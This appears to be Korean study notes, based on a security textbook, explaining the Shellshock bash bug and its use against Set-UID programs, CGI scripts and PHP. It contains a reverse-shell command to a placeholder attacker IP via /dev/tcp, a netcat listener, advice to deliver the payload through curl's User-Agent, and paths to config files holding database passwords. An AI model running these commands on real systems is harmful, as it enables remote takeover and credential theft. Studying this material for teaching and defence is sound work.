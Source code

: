 ```yaml
---
title: Shellshock Attack
tags: security shellshock
key: page-shellshock_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## Shell이란?
* Shell이란 command-line interpreter이다. 유저와 OS사이에서 명령어들을 읽고 그것들을 실행시켜준다.
* sh, bash, csh, zsh, Windows PowerShell 등이 있다.
* 그 중 bash shell이 Linux계열에서 가장 많이 쓰인다.
* Shell 안에 존재하는 보안 취약점들을 ShellShock라고 부른다.

```shell
$ foo=' () { echo "hello world"; }'
$ echo $foo
() { echo "hello world"; }
$ declare -f foo
$ export foo
$ bash
(child):$ echo $foo

(child):$ declare -f foo
foo ()
{
    echo "hello world"
}
(child) :$ foo
hello world
```

* 여기서 foo= ' '를 해버리면 shell variable로 인식을 해버리지만 자식 bash에서는 shell function으로 작동되어 버린다.
* 그리고 { 왼쪽 오른쪽에 스페이스(```() { echo```)가 반드시 있어야지만 함수로 인식 할 수 있다.
* export 커맨드를 통해 입력된 쉘 변수는 자식 쉘에게 전달될 수 있다.
* 부모 shell에서 자식 shell로 환경변수를 전달하는 과정에서 ()이 있으면 자식 shell에게 쉘 변수가 아닌 쉘 함수로 전달한다.
* declare는 쉘 함수를 프린트 해준다.

## The Shellshock Bug

* Shellsock가 일어나는 이유는 bash 코드 안에서 parsing을 제대로 못하고 있기 때문이었다.
* 먼저 환견변수들 중에서 ```() {``` 로 시작하면 환경변수를 함수로 바꿔버린다.
```
foo='() { echo "test"; } -> foo () { echo "test"; }
```
* 환경 변수로 바꾸면서 만약 거기에 함수 정의만 있는 것이 아니라 커맨드가 있다면 그것마저 실행시켜버려서 여기서 버그가 발생하게 된 것이다.

## Shellshock Attack on Set-UID Programs

* bash shell을 호출하는 함수가 있는 프로그램이 있다면 그게 타겟 프로그램이 될 수 있다.
* 타겟 프로그램이 Set-UID Program일때 우리는 위의 버그 예제를 사용함으로써 root shell을 탈취할 수 있다.
* 이때, dash와 같은 shell이 realID와 eID가 다름으로써 환경 변수로부터 함수 변환이 안 되는 것을 방지 하지 않는 취약한 프로그램으로만 공격이 가능할 것이다.

## Shellshock Attack on CGI Programs

* Common Gateway Interface(CGI)는 웹 서버에서 다이나믹하게 웹 페이지를 생성해주는 프로그램을 돌릴 수 있게 도와주는 것이다.
* 많은 CGI가 shell script를 쓰는데 bash를 쓰는게 있다면 우리가 노리는 타겟이 된다.
* 서버쪽에서 cgi 프로그램이 아파치 서버에 요청을 하면 서버는 fork를 통해 새로운 프로세스를 실행하게 된다.
* #!/bin/bash로 시작하면 exec()가 /bin/bash를 실행하게 된다.
* 브라우저로 user-agent값을 바꿔서 보내는건 힘들기 때문에 curl로 -A 를 통해 shellshock를 일으키는게 좋고 우분투 시스템에서 대게 일반적으로 /var/www/SQL/collabtive/config/standard/config.php나 /var/www/SeedElgg/engine/settings.php 문서들을 보면 데이터베이스 아이디와 비번이 hard coding된 것을 볼 수 있다.

## Reverse Shell

* Reverse Shell이란 원격 컴퓨터에서 input output을 컨트롤 할 수 있게 해주는 shell process이다.
* netcat을 주로 쓰는데 ```$ nc -l 9090 -v```라는 명령어를 주면 9090번 포트에서 listen을 하고 있고 공격자 컴퓨터에서 이것을 먼저 실행시킨다.
* 이후 서버쪽에서 ```$ /bin/bash -i > /dev/tcp/<attacker ip>/9090 0<&1 2>&1```을 실행시켜준다.
* bash를 interactive하게 쓴다는 거고 거기의 stdout을 9090포트로 보내는데 stdout내용을 fd 0(stdin) 으로 사용하고 stderr는 stdout(fd 1)로 보내겠다는 의미이다.
* 서버에 보내는 명령어를 이전에 배운 shellshock를 통해 실행시키면 되는데 curl -A에 넣어서 보내면 된다.
* Reverse shell에서 중요한 것은 standard input, output, and error에 관한 값을 공격자의 network connection으로 redirect하는 것이다. 


## Remote Attack on PHP

* Shellshock 공격에는 다음 2가지 조건이 필요하다.
    1. invocation of bash
    1. passing of user data as environment variables
* PHP code에서 system()을 쓰고, shell 이 bash라면 1번 조건이 충족된다.
* system()을 통해서 environment variables을 user input에 의해 설정할 수 있다면 2번 조건이 충족된다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)